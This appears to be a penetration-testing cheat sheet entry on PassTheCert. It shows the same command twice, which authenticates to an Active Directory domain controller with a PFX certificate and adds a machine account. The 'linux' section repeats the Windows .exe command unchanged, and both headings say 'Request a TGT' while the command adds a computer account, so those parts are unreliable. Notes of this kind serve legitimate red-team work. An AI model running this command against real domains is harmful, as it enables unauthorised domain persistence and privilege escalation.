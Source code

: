 # passthecert

% certificate, windows, Active directory, shadow credential



## Request a TGT using a PFX (windows)
#plateform/windows #target/remote  #cat/UTILS
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
https://github.com/AlmondOffSec/PassTheCert
```
.\PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```

## Request a TGT using a PFX (linux)
#plateform/linux #target/remote  #cat/UTILS
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
https://github.com/AlmondOffSec/PassTheCert
```
.\PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```